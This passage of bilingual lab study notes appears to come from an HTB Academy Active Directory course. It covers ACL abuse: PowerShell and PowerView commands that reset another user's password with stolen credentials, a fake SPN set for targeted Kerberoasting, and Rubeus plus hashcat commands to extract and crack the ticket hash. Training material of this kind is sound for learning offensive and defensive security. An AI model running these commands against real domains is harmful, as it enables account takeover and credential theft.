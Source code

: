 The output above shows that our adunn user has DS-Replication-Get-Changes and DS-Replication-Get-Changes-In-Filtered-Set rights over the domain object. This means that this user can be leveraged to perform a DCSync attack. We will cover this attack in-depth in the DCSync section. (busca el usuario adunn con el bloodhound)

## ACL Abuse Tactics

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/65d4610b-8c37-42c6-b153-518c8eeae384)

Para hacer todo esto hay que loggearnos como el usuario wley como no se puede vamos a crear un objeto PSCredentials

```
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Next, we must create a SecureString object which represents the password we want to set for the target user damundsen.

$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Finally, we'll use the Set-DomainUserPassword PowerView function to change the user's password.

Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose


```

Recuerda que aqui usan tanto funciones del modulo de ActiveDirectory como de PowerView

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/ec5faf8c-1c93-48d4-8dc3-ecc3ae65ea4a)

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/c5c29a53-24c5-46cb-9451-3cc7dfd78571)

### Create a fake SPN

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

### Kerberoasting with Rubeus


```
.\Rubeus.exe kerberoast /user:adunn /nowrap

hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## DCSync

